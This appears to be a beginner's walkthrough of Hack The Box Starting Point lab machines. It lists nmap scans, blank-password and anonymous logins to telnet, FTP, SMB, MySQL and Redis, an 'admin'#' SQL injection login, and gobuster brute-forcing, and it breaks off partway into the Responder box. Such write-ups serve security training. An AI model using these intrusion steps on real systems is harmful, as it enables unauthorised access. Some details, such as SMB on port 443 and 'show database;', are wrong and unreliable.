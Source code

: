 ***歡迎來到HTB新手村***

Start here: https://app.hackthebox.com/starting-point

On environment Kali Linux and connect to HTB

Explain the linux command: https://explainshell.com/

Always ask google: https://www.google.com/

# 0.1 Meow

1. Check port 23 running service

   `nmap -p 23 -sV TARGET_IP`

2. telnet service is running, execute `telnet`

   `telnet TARGET_IP`

3. login with `root`

4. login succeed
5. `ls` to show what's there
6. `cat flag.txt`

# 0.2 Fawn

1. Check port 21 (FTP) running service

   `nmap -p 21 -sV TARGET_IP`

2. ftp service is running, execute `ftp`

   `ftp TARGET_IP`

3. login with name `anonymous` without password

4. `ls` and there is a *flag.txt*

5. copy the file to current directory

   ftp>`get flag.txt`

6. exit ftp by command `bye`, then `cat flag.txt`

# 0.3 Dancing

1. Check port 443 (SMB) running service

   `nmap -p 443 -sV TARGET_IP`

2. SMB service is running, see what is sharing in the server

   `smbclient -L TARGET_IP`

3. We are able to access with a blank password for the folder *WorkShares*

   `smbclient //TARGET_IP/WorkShares`

4. list the files in folder *WorkShares* smb: \> `ls`

5. Check the file *James.P* owns, the flag is inside *flag.txt*

6. smb: \James.P\> `get flag.txt`

# 0.4 Redeemer

1. Check the TCP port opened on the machine, `-T5` used for quicker enum, `-sS` is check for the TCP SYN scan (half of the TCP handshake), `-sV` is used to check the version of the service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. port 6379/tcp is opened for **Redis** service **version 5.0.7**, Redis is an **in-memory database**

3. connect to Redis server, `-h` means host

   `redis-cli -h TARGET_IP`

5. Connected success, select the first database in Redis: `select 0`

6. List all the keys in this database: `keys *`, the flag is in the *flag* key

7. Look at the value of the key *flag* by `get flag`

# 1.1 Appointment

1. Check port 80 (HTTPS), and it is running

   `nmap -p 80 TARGET_IP`

2. Browse TARGET_IP in browser

3. Input `admin'#` for username (which is **SQL injection**), do not empty the password field

# 1.2 Sequel

1. Check running service, and port 3306 is running *SQL* service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. We can connect to the database with user **root** by a blank password

   `mysql -h TARGET_IP -u root`

3. After connecting to the database, check what schema is there: `show database;`

4. Use the schema htb: `use htb;`

5. See what tables in the schema: `show tables;`

6. See what is inside the *config* table: `select * from config;`, flag is there

# 1.3 Crocodile

1. Check running service on port 21 with version detection

   `nmap -p 21 -sV TARGET_IP`

2. Check HTTP running service (port 80) with version detection

   `nmap -p 80 -sV TARGET_IP`

3. Use **gobuster** to check any useful **php** file

   `gobuster dir -u TARGET_IP -x php -w /user/share/wordlists/dirb/common.txt`

   ![image-20220807140329252](..\assets\img\htb-starting-point\1.png)

4. Check the TARGET_IP/login.php in browser

5. As FTP is running, go check the file in FTP

6. `ftp TARGET_IP`, login as `anonymous`, then `ls`

7. ftp> `get allowed.userlist`, ftp> `get allowed.userlist.passwd`

8. input the user **`admin`** with the corresponding password in **.passwd** file to login

# 1.4 Responder

1. Check all ports:`nmap -p- -T5 -sS TARGET_IP`
2. ![image-20220807172900458](..\assets\img\htb-starting-point\2.png)
3. Check directories: `gobuster dir -u TARGET_IP -w /user/share/wordlists/dirb/common.txt`
4. ![image-20220807173447614](..\assets\img\htb-starting-point\3.png)
